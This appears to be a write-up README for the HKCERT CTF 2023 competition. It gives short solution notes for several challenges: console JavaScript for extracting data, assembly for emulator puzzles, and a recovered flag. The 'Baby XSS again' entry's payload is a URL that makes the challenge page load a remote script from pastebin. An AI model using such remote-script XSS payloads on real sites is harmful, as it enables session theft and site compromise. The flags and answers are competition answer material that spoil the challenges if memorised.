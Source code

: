 # HK Cyber Security New Generation CTF Challenge 2023

<https://ctftime.org/event/2122>

Solved Challenges

- ISA Jump Scare
- ISA Intrusion
- Baby XSS again
- Tuning Keyboard 4
- Re:Zero
- Feedback
- ST Code (I)
- Fake/Ground Offer
- Sanity check
- ISA Jogger
- Psychic AI
- Yes, I Know I Know
- Sign me a Flag (I)

## 10: Tuning Keyboard 4

See [tuning-keyboard.js](./tuning-keyboard.js)

## 11: ST Code (I)

Simple number fetching and decoding.

```js
Array.from(document.querySelectorAll("rect")).map((r)=>r.getAttribute('rx')).join('');
```

<https://gchq.github.io/CyberChef/#recipe=From_Binary('Space',8)&input=MDExMDEwMDAwMTEwMTAxMTAxMTAwMDExMDExMDAxMDEwMTExMDAxMDAxMTEwMTAwMDAxMTAwMTAwMDExMDAxMTAxMTExMDExMDEwMTAwMTEwMTAxMDEwMDAxMDExMTExMDEwMTAwMTEwMTAxMDEwMDAwMTAwMTEwMDExMTAwMTEwMDExMDEwMDAxMDExMTExMDEwMTAwMTEwMTAxMDEwMDAxMTAwMTAxMDExMDAxMTEwMTEwMDAwMTAxMTAxMTEwMDAxMTAwMDAwMTEwMDExMTAxMTEwMDEwMDExMDAwMDEwMTExMDAwMDAxMTAxMDAwMDExMTEwMDEwMDEwMTEwMTAwMTAxMTAxMDEwMTAwMTEwMTAxMDEwMDAxMTAwMTAxMDExMDAxMTEwMDExMDAwMDAxMTExMTAx>

## 32: Baby XSS again

Payload: <http://babyxss-k7ltgk.hkcert23.pwnable.hk:28232/?src=https://pastebin.com/dl/xNRmEBhV>

## 37: Fake/Ground Offer

Check [fake_ground_offer.py](./fake_ground_offer.py).

## 44: ISA Jump Scare

Exit 0 Example

```asm
JMP 0x400011
JMP MOV R8, 2
JMP 0x40002c
JMP MOV R1, 0
JMP 0x400047
JMP SYSCALL
```

Ans: See ihateasm.py

## 58: ISA Intrusion

Annoying memory reading.

```js
allTextNodes = document.querySelectorAll("#app > div > div.row.py-2 > div:nth-child(2) > div:nth-child(3) > div > div > div.vue-recycle-scroller.ready.direction-vertical.scroller > div.vue-recycle-scroller__item-wrapper > div > span > span:nth-child(10)");
Array.from(allTextNodes).map( (node) => {return node.innerText} ).join('');
```

```txt
9df15;.PUSH 0xde0c7383;.PUSH 0x161c73a6;.PUSH 0x5fed2896;.PUSH 0xe302a383;.MOV S................_....i>..m.s{.R.8_MM.r|.4.pQ........V....!..l{..-^.... .....s.N.........X..L..j..&...R.[..^nQ...K......Z[.>...//..'r-a.Qk.^..iBq ...f:..hkcert23{s0m3t1m3_i7s_e4si3r_70_dyn4m1c_r3v_ju5t_p4tch&l0ok_4t_m3mory}..................................................
```

## 65: Jogger

Exit 0 example

```asm
MOV R8, 2
MOV R1, 0
MOV [FP], 0x0a4c4c41
MOV [FP-0x4], 0x43535953;

MOV R6, 0x4000a1
MOV R7, [FP-0x4]
MOV [R6], R7

MOV R6, 0x4000a5
MOV R7, [FP-0]
MOV [R6], R7
```

Move SYSCALL to frame.
and move it back to the memory section to replace instruction placeholders.

There's a bug that jogger doesn't like, which is the ';' and '\n' character.
Remove them accordingly...

Target: add SYSCALL dynamically.

Trick: set breakpoints at `MOV 0x0` and keep replacing the address.

See [ihateasm_jogger.txt](./ihateasm_jogger.txt)
